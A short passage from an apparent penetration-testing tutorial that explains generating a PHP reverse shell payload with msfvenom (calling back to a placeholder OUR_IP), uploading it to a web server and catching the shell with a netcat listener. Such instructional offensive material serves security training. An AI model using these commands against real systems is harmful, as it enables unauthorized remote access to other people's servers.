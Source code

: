 Can generate a reverse shell script in many languages and may even attempt to bypass certain restrictions in place. We can do so as follows for `PHP`:

```bash
msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
```

Once our `reverse.php` script is generated, we can once again start a `netcat` listener on the port we specified above, upload the `reverse.php` script and visit its link, and we should receive a reverse shell as well:

```shell-session
nc -lvnp OUR_PORT
```

Similarly, we can generate reverse shell scripts for several languages. We can use many reverse shell payloads with the `-p` flag and specify the output language with the `-f` flag.